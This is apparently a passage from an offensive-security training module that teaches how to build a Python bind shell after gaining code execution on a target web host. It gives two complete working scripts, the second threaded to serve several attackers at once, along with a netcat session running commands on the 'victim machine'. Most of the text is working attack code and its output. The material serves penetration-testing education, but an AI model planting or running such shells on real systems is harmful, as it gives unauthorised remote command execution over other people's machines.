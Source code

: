 Upon gaining access to an internal web service with the credentials we generated using the previous tool, we can get remote code execution on the web host. Trying to use our go-to reverse shells mysteriously does not seem to work, but we discover that we can execute arbitrary python scripts. Let us abuse that discovery by implementing and running our own Python `bind shell`.

A bind shell is at its core reasonably simple. It is a process that binds to an address and port on the host machine and then listens for incoming connections to the socket. When a connection is made, the bind shell will - repeatedly - listen for bytes being sent to it and treat them as raw commands to be executed on the system in a subprocess. Once it has received all bytes in chunks of some size, it will run the command on the host system and send back the output. A very naive implementation of such a bind shell is this:

#### A Simple Bind Shell

```python
import socket
import subprocess
import click

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)
    client_socket, address = s.accept()

    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

if __name__ == '__main__':
    main()
```

Given that we will be sending this to our client, we will improve on code quality and make it more reliable. Nevertheless, first, let us analyze it.

The code consists of two functions so far: a wrapper function for executing commands on the system and one main function that contains all the logic thrown into one place. This is less than ideal. The main function sets up a socket, binds it to `0.0.0.0` (i.e., all available interfaces) and the desired port. It is then configured to allow at most four unaccepted connections before it starts refusing connections anymore - the `listen` function configures this. The socket then accepts new incoming connections. This is a so-call `blocking call`, which means the code will halt at this line of code and wait for a connection to be made. When a connection is established, the `accept` call returns two things that we store in the variables `client_socket` and `address`.

Many things happen in the while loop, so let us break it down into smaller pieces. First, these are our goals:

- receive all of the incoming bytes from the connected client (our attacker machine),
    
- convert the incoming bytes to a `cmd` string,
    
- close down the connection if `cmd` is "exit",
    
- otherwise execute the command locally and send back the output
    

Notice that we remove the last byte of the `cmd` string. This is a newline character stemming from hitting enter when typing the command.

When we run this script on our target machine, we can use `nc` on our attacker machine to connect to the bind shell and gain remote code execution:

#### Starting the Bind Shell

```bash
C:\Users\Birb\Desktop\python> python bindshell.py --port 4444
```

#### Connecting to the Bind Shell

```bash
user@htb[/htb]$ nc 10.10.10.10 4444 -nv

(UNKNOWN) [10.10.10.10] 4444 (?) open

whoami
localnest\birb

hostname
LOCALNEST

dir 
Volume in drive C has no label.
 Volume Serial Number is 966B-6E6A

 Directory of C:\Users\Birb\Desktop\python

20-03-2021  21:22    <DIR>          .
20-03-2021  21:22    <DIR>          ..
20-03-2021  21:22               929 bindshell.py
               1 File(s)            929 bytes
               2 Dir(s)  518.099.636.224 bytes free
exit
```

The downside of the current implementation is that once we disconnect, the bind shell process stops. One way to fix this is to introduce `threads` and have the command execution part of the code run in a thread. This would allow us to create a new thread every time a machine connects to the shell, and then we would only have to stop the extra thread when the shell exits. Threads, in general, is a vast and complex topic, and Python has its quirks too. To keep a very long and complicated story short and straightforward, threads let us run different code pieces `concurrently`, similarly to how humans multitask. Note that concurrently is not the same as parallel. In our example, this means that while one thread is busy doing work for our connected client, another thread (the primary one) is ready to accept a new incoming connection. Once another connection is made, these two connected clients can execute code on the victim machine using the same bind shell.

By simply extracting the code that handles command execution to its function, it is possible to make the bind shell first listen for a new connection, spawn a thread for that connection that handles command execution, and finally start over listening to new incoming connections.

#### Supporting multiple connections

```python
import socket
import subprocess
import click
from threading import Thread

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

def handle_input(client_socket):
    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)

    while True:
        client_socket, _ = s.accept()
        t = Thread(target=handle_input, args=(client_socket, ))
        t.start()

if __name__ == '__main__':
    main()
```

As we can see, we have added a `handle_input` function that accepts a `client_socket` as a parameter. When we create a new `Thread` object, setting the `target` (function to run) and the input parameters as a tuple, we can start this thread and let it run in the background. In addition, a `from threading import Thread` was added at the top. Also, pay close attention to the `args` in the `Thread` constructor. This is a tuple with just one value. To differentiate between single value tuples and "scope parentheses", e.g. `('Hello ' + 'world').upper()` which will have `upper()` called on the concatenated string and not just "world", the syntax for single value tuples is `(val1, )`. For two value tuples, it is `(val1, val2)` and so forth. Furthermore, yes, that is a comma and then nothing for single value tuples. Confusing? Perhaps. Just remember that `(5)` is the same as `5` because the parentheses are used for grouping, so we would need some way to differentiate between syntactic grouping and a tuple type.